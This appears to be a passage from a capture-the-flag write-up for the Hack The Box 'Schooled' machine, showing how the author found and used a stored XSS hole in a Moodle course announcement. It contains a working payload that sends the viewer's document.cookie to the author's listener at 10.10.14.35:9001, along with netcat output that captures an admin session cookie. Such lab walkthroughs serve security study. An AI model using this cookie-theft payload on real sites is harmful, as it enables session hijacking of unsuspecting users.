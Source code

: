 And we were greeted with our account-

![[Pasted image 20210706050247.png]]


On further exploration we found that we can enroll ourself in Mathematics course-


![[Pasted image 20210706050842.png]]


![[Pasted image 20210706051019.png]]


After enrolling we were able to see an announcement by Manuel Philips-

![[Pasted image 20210706051238.png]]


Looking at the announcement we get a very strong inclination or hint  towards  XSS attack.



# XSS -

Following up with the announcement-

![[Pasted image 20210706052832.png]]


### Payload -

```bash
<img src=x onerror=this.src='http://10.10.14.35:9001/?'+document.cookie;>
```

![[Pasted image 20210706053630.png]]


Starting our netcat listener before saving the above and we got the cookie of admin-

```bash
root@napster:~/Documents/HTB/Schooled# nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.14.35] 58942
GET /?MoodleSession=cguu48277b9lvk86370vimr571 HTTP/1.1
Host: 10.10.14.35:9001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://moodle.schooled.htb/moodle/user/profile.php?id=29
Connection: keep-alive
```

### Cookie-cguu48277b9lvk86370vimr571
